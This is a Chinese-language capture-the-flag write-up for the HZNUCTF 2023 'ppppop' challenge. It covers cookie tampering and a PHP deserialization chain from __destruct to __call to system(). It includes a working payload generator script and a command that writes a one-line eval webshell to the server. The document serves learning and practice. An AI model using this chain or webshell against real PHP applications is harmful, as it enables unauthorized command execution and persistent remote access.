



# [HZNUCTF 2023 preliminary]ppppop

## 基本信息

- 题目名称：[HZNUCTF 2023 preliminary]ppppop
- 题目链接：https://www.nssctf.cn/problem/3615
- 考点清单：PHP 反序列化、魔术方法 `__destruct()`、`__call()`、动态函数调用、Cookie 篡改
- 工具清单：Burp Suite、PHP
- 难度：简单

## 一、看到什么

### 第一轮：Cookie 反序列化

进入题目后，页面显示为空白

查看网页源码，并使用 `dirsearch` 进行基础目录扫描，均未发现有效线索

观察 HTTP 请求与响应报文，仅发现以下环境信息：

- Apache/2.4.54 (Debian)
- PHP/7.4.33

继续使用 Burp Suite 抓包，发现响应过程中存在 Cookie，将其进行 Base64 解码，得到：

```php
O:4:"User":1:{s:7:"isAdmin";b:0;}
```

这是一个 PHP 序列化对象，其中 `isAdmin` 属性的值为 `false`

尝试将 `b:0` 修改为 `b:1`，重新序列化并进行 Base64 编码，将修改后的内容作为 Cookie 发送，成功获得后续页面



### 第二轮：获取源码

通过第一轮的 Cookie 篡改获得权限后，页面给出了题目源码：

```php
<?php
error_reporting(0);
include('utils.php');

class A {
    public $className;
    public $funcName;
    public $args;

    public function __destruct() {
        $class = new $this->className;
        $funcName = $this->funcName;
        $class->$funcName($this->args);
    }
}

class B {
    public function __call($func, $arg) {
        $func($arg[0]);
    }
}

if(checkUser()) {
    highlight_file(__FILE__);
    $payload = strrev(base64_decode($_POST['payload']));
    unserialize($payload);
}
?>
```

`A::__destruct()` 根据反序列化对象的属性动态实例化类，并调用指定方法

将 `className` 设置为 `B`，调用不存在的 `system` 方法，从而触发 `B::__call()`，最终通过可变函数调用 `$func($arg[0])` 执行 `system()`，实现命令执行

核心利用点：`__destruct()` **控制调用参数，**`__call()` **实现动态函数调用**

## 二、想到什么解题思路

利用 `A::__destruct()` 控制类名、方法名和参数，再借助 `B::__call()` 中的可变函数调用，将普通方法调用转换为 PHP 函数调用

构造对象时，需要满足以下条件：

| 属性 | 构造值 | 作用 |
|---|---|---|
| `className` | `B` | 实例化 B 类 |
| `funcName` | `system` | 触发 B 中不存在的 system 方法 |
| `args` | `env` | 作为 system 的命令参数 |

最终调用链：

```php
$a = new A();
$a->className = "B";
$a->funcName = "system";
$a->args = "env";
```

需要注意，题目对 POST 参数进行了额外处理：

```php
$payload = strrev(base64_decode($_POST['payload']));
```

因此，不能直接提交序列化结果，需要按照相反顺序进行编码：

```php
base64_encode(strrev(serialize($a)));
```

## 三、尝试过程和结果记录

### 1. 构造反序列化 Payload

编写 PHP 脚本生成 Payload：

```php
<?php
class A {
    public $className;
    public $funcName;
    public $args;
}

class B {
}

$a = new A();
$a->className = "B";
$a->funcName = "system";
$a->args = "env";

echo base64_encode(strrev(serialize($a)));
?>
```

将生成的结果作为 POST 参数 `payload` 提交

服务端经过 Base64 解码和字符串反转后，得到原始序列化数据，随后触发 `A::__destruct()`，最终通过 `B::__call()` 调用 `system()` 执行命令

成功获得 FLAG



### 2. 尝试写入 WebShell

获得命令执行后，进一步尝试将 WebShell 写入服务器

最初希望通过 `eval()` 动态执行 PHP 代码，构造了以下 Payload：

```php
$a = new A();
$a->className = "B";
$a->funcName = "eval";
$a->args = 'system($_GET[0]);';
```

但该 Payload 无法执行预期的 PHP 代码

因为 `eval` 属于 PHP 语言结构（Language Construct），而不是普通函数，因此不能通过类似可变函数调用的方式触发 `eval()` 的执行

> PHP 的可变函数调用机制可以根据字符串动态调用普通函数，但不能用于调用 `eval` 等语言结构
>
> ```php
> $code = 'echo "hello";';
> 
> // 正常执行
> eval($code);
> 
> // 无法通过这种方式调用
> $func = "eval";
> $func($code);
> ```
>
> 第一种写法中，PHP 直接识别 `eval()`，并将 `$code` 作为 PHP 代码执行
>
> 第二种写法中，PHP 将 `$func` 的值作为函数名进行调用，但 `eval` 并不是普通函数，因此无法执行

PHP 中类似的语言结构还有 `include`、`require`、`isset`、`empty`、`echo`、`print`、`exit` 等

| 语言结构 | 作用 |
|---|---|
| `eval` | 将字符串作为 PHP 代码执行 |
| `include` / `include_once` | 包含并执行 PHP 文件 |
| `require` / `require_once` | 包含文件，失败时产生致命错误 |
| `isset` | 检查变量是否已设置且非 NULL |
| `empty` | 检查变量是否为空 |
| `unset` | 销毁变量 |
| `echo` / `print` | 输出内容 |
| `die` / `exit` | 终止脚本执行 |
| `list` | 将数组元素赋值给变量 |

### 3. 尝试通过 GET 参数传递命令

既然不能直接调用 `eval()`，便尝试将 `system()` 的参数设置为 GET 表达式：

```php
$a = new A();
$a->className = "B";
$a->funcName = "system";
$a->args = '$_GET[0]';
```

但仍然无法达到预期效果

原因在于，这里的 `$_GET[0]` 只是一个字符串，并不会被 PHP 自动解析为 GET 数组的取值表达式

最终形成的调用效果相当于：

```php
system('$_GET[0]');
```

`system()` 接收到的是操作系统命令字符串，而不是 PHP 代码，因此不会对其中的 `$_GET[0]` 进行 PHP 变量解析

### 4. 使用 system() 写入 WebShell

参考其他师傅的利用方式，直接利用 `system()` 执行 Shell 命令，将 PHP WebShell 写入服务器

```php
$a = new A();
$a->className = "B";
$a->funcName = "system";
$a->args = "echo '<?php @eval(\$_POST[\"cmd\"]); ?>' > shell.php";
```

这里需要注意转义关系：

- 外层使用 PHP 双引号构造命令字符串，内层用 反斜杠加双引号形式进行包裹
- `\$` 阻止 PHP 将 `$_POST` 当作当前脚本中的变量进行插值，也避免 Shell 将其当作环境变量展开

最终在服务器上生成：

```php
<?php @eval($_POST["cmd"]); ?>
```

访问写入的 WebShell，通过 POST 参数 `cmd` 执行命令，成功连接



## 四、反思与总结

### 1. PHP 双引号字符串会进行变量解析

在最初编写 Exp 时，使用了以下代码：

```php
$a->args = "system($_GET[0]);";
```

执行时出现报错：

```text
Warning: Undefined array key 0
```

原因是 **PHP 双引号字符串支持变量插值（Variable Interpolation）**

在构造字符串时，PHP 会尝试解析其中的 `$_GET[0]`，而当前生成 Payload 的脚本并没有传入对应的 GET 参数，因此产生数组键不存在的警告

修正方法是使用单引号：

```php
$a->args = 'system($_GET[0]);';
```

单引号字符串不会对其中的变量进行插值，因此可以保留原始字符

**需要区分：字符串构造阶段的 PHP 解析，与字符串后续交给其他解释器执行，是两个不同的过程**

### 2. 区分 PHP 函数与语言结构

PHP 的可变函数调用只能调用普通函数，不能直接调用 `eval()`、`include`、`echo` 等语言结构

因此，不能简单地认为只要能够控制函数名，就可以动态调用所有 PHP 语法结构

本题中，`B::__call()` 使用：

```php
$func($arg[0]);
```

能够动态调用 `system()`，但不能通过相同方式调用 `eval()`

## 五、参考资料

- [PHP 官方文档 - Magic Methods](https://www.php.net/manual/zh/language.oop5.magic.php)
- [PHP 官方文档 - Variable Functions](https://www.php.net/manual/zh/functions.variable-functions.php)
- [PHP 官方文档 - Strings](https://www.php.net/manual/zh/language.types.string.php)
- [PHP 官方文档 - eval](https://www.php.net/manual/zh/function.eval.php)
